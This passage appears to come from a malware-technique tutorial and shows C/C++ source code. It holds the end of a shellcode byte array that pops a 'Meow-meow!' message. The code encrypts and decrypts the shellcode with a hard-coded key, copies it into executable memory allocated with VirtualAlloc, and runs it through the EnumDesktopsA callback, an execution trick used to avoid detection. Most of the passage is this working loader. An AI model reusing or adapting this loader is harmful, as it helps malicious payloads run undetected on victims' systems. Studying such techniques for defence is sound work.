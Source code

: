 ```cpp
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  };
  unsigned char key[10]  = { 0x00, 0x99, 0x88, 0x77, 0x66, 0x55, 0x44, 0x33, 0x22, 0x11 };
  unsigned char tab[10][256];

  // pad data to 8 bytes
  int dataSize = sizeof(data);
  int paddedDataSize = (dataSize / 8 + 1) * 8;
  unsigned char paddedData[paddedDataSize];

  memcpy(paddedData, data, dataSize);
  memset(paddedData + dataSize, 0, paddedDataSize - dataSize);

  unsigned char encryptedData[paddedDataSize];
  unsigned char decryptedData[paddedDataSize];

  printf("Original data:\n");
  for (int i = 0; i < paddedDataSize; i++) {
    printf("%02x ", paddedData[i]);
  }
  printf("\n");

  encryptData(tab, paddedData, encryptedData, paddedDataSize);

  printf("Encrypted data:\n");
  for (int i = 0; i < paddedDataSize; i++) {
    printf("%02x ", encryptedData[i]);
  }
  printf("\n");

  decryptData(tab, encryptedData, decryptedData, paddedDataSize);

  printf("Decrypted data:\n");
  for (int i = 0; i < paddedDataSize; i++) {
    printf("%02x ", decryptedData[i]);
  }
  printf("\n");

  LPVOID mem = VirtualAlloc(NULL, paddedDataSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, decryptedData, paddedDataSize);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

Printing operations is just for checking correctness of implementation.    

### demo
